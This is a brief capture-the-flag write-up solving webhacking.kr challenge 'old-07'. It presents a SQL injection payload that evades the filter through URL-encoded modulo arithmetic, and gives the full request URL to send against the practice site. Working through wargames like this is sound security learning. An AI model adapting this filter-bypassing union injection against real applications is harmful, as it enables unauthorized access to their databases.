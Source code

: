 # webhacking old-07 Solution

here there is another sql challenge:

![alt text](./images/old-07.png)

this is the payload we will give: `3)UNION(SELECT(10%258)`
which equivalent to `3) UNION (SELECT ( 10 % 8 )` and as you know, `10 % 8 = 2` and that's what we need.

you'll need to refresh the page couple of times until the random will heat 1.
```
https://webhacking.kr/challenge/web-07/index.php?val=3)UNION(SELECT(10%258)
```
